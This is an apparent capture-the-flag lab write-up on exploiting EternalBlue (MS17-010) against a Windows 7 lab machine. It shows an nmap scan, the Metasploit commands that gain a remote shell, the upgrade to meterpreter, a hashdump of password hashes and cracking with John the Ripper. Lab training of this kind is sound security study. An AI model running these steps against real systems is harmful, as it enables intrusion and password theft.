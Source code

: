 #Windows #EternalBlue

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.33.86
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 135/tcp msrpc Microsoft Windows RPC

![image](https://user-images.githubusercontent.com/99097743/171191732-73be2919-4881-4759-bf5a-eeb8b8460a9a.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191815-76b01734-be5b-4a75-b7d8-deaf07334a2d.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191940-4d44c027-59e1-45af-9635-fa1d279731d2.png)

* 3389/tcp open  ssl/ms-wbt-server?

![image](https://user-images.githubusercontent.com/99097743/171192028-c0d68993-f0d4-435b-bf66-4ecbf95e6992.png)


**MS10-010 KNOWLEDGE BASE**

Reference: https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue

ms17_010_eternalblue is a remote exploit against Microsoft Windows, originally written by the Equation Group (NSA) and leaked by Shadow Brokers (an unknown hacking entity). It is considered a reliable exploit and allows you to gain access not only as SYSTEM - the highest Windows user mode privilege, but also full control of the kernel in ring 0. In modern day penetration tests, this exploit can be used in internal and external environments.

As far as remote kernel exploits go, this one is highly reliable and safe to use.

The check command of ms17_010_eternalblue is also highly accurate, because Microsoft's patch inadvertently added an information disclosure with extra checks on vulnerable code paths.

This exploit works against a vulnerable SMB service from one of these Windows systems:

* Windows XP x86 (All Service Packs)
* Windows 2003 x86 (All Service Packs)
* Windows 7 x86 (All Service Packs)
* Windows 7 x64 (All Service Packs)
* Windows 2008 R2 x64 (All Service Packs)
* Windows 8.1 x64
* Windows Server 2012 R2 x64
* Windows 10 Pro x64 (< Version 1507)
* Windows 10 Enterprise Evaluation x64 (< Version 1507)

To reliability determine whether the machine is vulnerable, you will have to either examine the system's patch level, or use a vulnerability check.

**GAIN FOOTHOLD**

We can now use `metasploit` to gain access. Here are the steps:

```sh
msfconsole
search eternalblue
use windows/smb/ms17_010_eternalblue
show options
set RHOSTS
set LHOST
run
```

![image](https://user-images.githubusercontent.com/99097743/171214941-056ec471-839f-4e63-829a-d382224b9803.png)


**ESCALATE**

We need to upgrade the shell from command line to a more functional meterpreter. 

First, let's background the session by clicking `CTRL+Z`. You can see the active session with the `sessions` command:

![image](https://user-images.githubusercontent.com/99097743/171216893-e2977fe8-1f18-4294-bfca-a7b113bd62a4.png)

Now we need search for `shell_to_meterpreter`

![image](https://user-images.githubusercontent.com/99097743/171218485-79849cf9-a5c1-42dc-9387-c2c2e0673a92.png)

Please make sure the session info is updated: `set SESSION 1`

![image](https://user-images.githubusercontent.com/99097743/171218893-6f197426-71fd-43b4-94fb-0e82ba1cc9e8.png)

We can now list the sessions and select Session 2 for the rest of the lab:

![image](https://user-images.githubusercontent.com/99097743/171219818-c114247f-de7c-48b7-86fc-38e6e2590750.png)

**CRACKING**

`hashdump` command will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![image](https://user-images.githubusercontent.com/99097743/171225571-382756c2-7d5f-4b85-aa8c-8b512b4f4a50.png)

We can crack the password using **John the Ripper**. Please make sure to include `--format=NT` here:

![image](https://user-images.githubusercontent.com/99097743/171227324-e3b7b13c-b2d5-49b6-b06e-0c81980c7a51.png)

**FLAGS**

